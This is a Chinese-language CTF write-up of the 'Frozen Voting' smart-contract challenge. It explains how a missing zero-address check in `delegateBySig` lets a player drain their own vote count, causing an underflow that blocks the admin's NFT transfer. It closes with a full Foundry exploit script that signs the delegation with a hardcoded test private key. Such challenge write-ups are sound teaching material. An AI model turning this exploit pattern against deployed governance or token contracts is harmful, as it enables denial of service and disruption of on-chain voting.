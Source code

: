 ------

老传统，再接一题吧，同个比赛的题目Frozen Voting：

根据提供的题目合约，我们可以知道ADMIN在mint了一个10000票权的NFT后delegate给了我们自己，同时我们自己有一个1票权的NFT，此时我们的票权为10001；而最后的`isSolved`会尝试更换delegate并转移走10000票权的NFT，而我们的目标就是阻止这次操作

那么其实很明显了：我们唯一能做的就是在第一步更换delegate的时候做手脚，而NFT在发生所有权变更的时候一定会调用`_delegate`，而其中的`_moveDelegates`会减去上一任delegatee的票权并加到下一位那里，因此很简单：我们要想办法通过`_delegate`让自己的票权小于10000，从而触发整型下溢以实现DoS攻击

经过一点简单的代码审计，我们发现`delegateBySig`函数有点小小的问题：相比`delegate`函数，它缺少了对`delegatee`参数是否为`address(0)`的确认与操作，从而使得我们可以将自己的NFT通过`delegateBySig`函数delegate给0x0地址，而根据`_moveDelegates`函数，此时我们的票权会-1，而没有人的票权会上升（合约误以为我们销毁了NFT），因此此时我们再一次进行`delegateBySig`或者直接`transferFrom`给任意的地址即可让我们的票权达到9999，进而实现前面的目的

下面是forge的解题script：

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-ctf/CTFSolver.sol";

import "src/Challenge.sol";

contract Solve is CTFSolver {
    function solve(address challenge, address player) internal override {
        uint256 playerPrivateKey = vm.envOr(
            "PLAYER",
            uint256(
                0xac0974bec39a17e36ba4a6b4d238ff944bacb478cbed5efcae784d7bf4f2ff80
            )
        );
        Challenge ch = Challenge(challenge);
        VotingERC721 votingToken = ch.votingToken();

        address delegatee = address(0x0);
        uint256 nonce = votingToken.nonces(player);
        uint256 expiry = block.timestamp + 1 days;
        bytes32 DOMAIN_TYPEHASH = votingToken.DOMAIN_TYPEHASH();
        bytes32 DELEGATION_TYPEHASH = votingToken.DELEGATION_TYPEHASH();
        bytes32 domainSeparator = keccak256(
            abi.encode(
                DOMAIN_TYPEHASH,
                keccak256("VotingERC721"),
                block.chainid,
                address(votingToken)
            )
        );
        bytes32 structHash = keccak256(
            abi.encode(DELEGATION_TYPEHASH, delegatee, nonce, expiry)
        );
        bytes32 digest = keccak256(
            abi.encodePacked("\x19\x01", domainSeparator, structHash)
        );
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(playerPrivateKey, digest);
        votingToken.delegateBySig(delegatee, nonce, expiry, v, r, s);

        address account2 = address(0x1);
        votingToken.transferFrom(player, account2, 123);

        ch.isSolved();
    }
}
```
